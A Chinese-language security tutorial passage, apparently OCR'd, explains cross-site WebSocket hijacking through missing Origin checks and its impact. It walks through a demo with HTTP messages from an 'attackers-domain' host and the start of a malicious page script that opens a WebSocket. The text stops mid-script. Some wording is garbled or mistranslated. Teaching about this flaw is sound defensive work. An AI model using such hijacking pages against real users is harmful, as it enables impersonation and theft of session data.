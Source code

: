 CSWSH 缺陷是由于客户端握手中缺少对 Origin 标头的验证或验证不正确造成的。这是跨站点请求伪造(CSRF)漏洞的 WebSocket 特定版本。如果 WebSocket 应用程序使用 cookies 来管理用户会话，攻击者可能会使用 CSRF 攻击伪造握手请求，并操纵通过 WebSocket 连接发送和接收的消息。

然后，黑客的页面可以使用该连接向服务器发送任意消息，并查看收到的消息内容。这意味着，与传统的 CSRF 不同，攻击者可以与受损的应用程序进行双向通信。

通过成功的 CSWSH 攻击，黑客可以:

*   冒充受害者用户执行未经授权的操作。攻击者可以向服务器应用程序发送任意消息，就像普通的 CSRF 一样。如果攻击者利用客户端生成的 WebSocket 消息来完成敏感操作，他可以生成相关的跨域通信并开始这些操作。
*   获取用户有权访问的机密信息。与普通的 CSRF 不同，跨站点 WebSocket 劫持允许攻击者使用受控的 WebSocket 与易受攻击的应用程序进行双向通信。如果应用程序使用服务器生成的 WebSocket 消息向用户返回任何敏感数据，攻击者就可以截获这种通信和受害用户的数据。

**CSWSH 的测试环境**
*以利用易受攻击的应用程序的 CSWSH 攻击为例……………………*WSS:/echo . web socket . org*。以下是进攻策略。*

![](img/8c2349efd84baae55fe7979856385a1b.png)

跨站点 WebSocket 劫持攻击

让我们回顾一下各个阶段，我们将向您展示在每个级别收到的 HTTP 格式的消息。

受害者的浏览器在攻击者的控制下崩溃

```
GET / HTTP/1.1
Host: attackers-domain
User-Agent**:** Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

该网站会向用户发送一个包含恶意内容的页面:

```
HTTP/1.1 200 OK
Host: attackers-domain
Date: Mon, 16 Aug 2021 14:11:09 +0101
Connection: close
X-Powered-By: PHP/7.1.21
Content-type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
<body>
  <script>
    websocket = new WebSocket('wss://echo.websocket.org');
    websocket.onopen = start
    websocket.onmessage = handleReply
    function start(event) {
```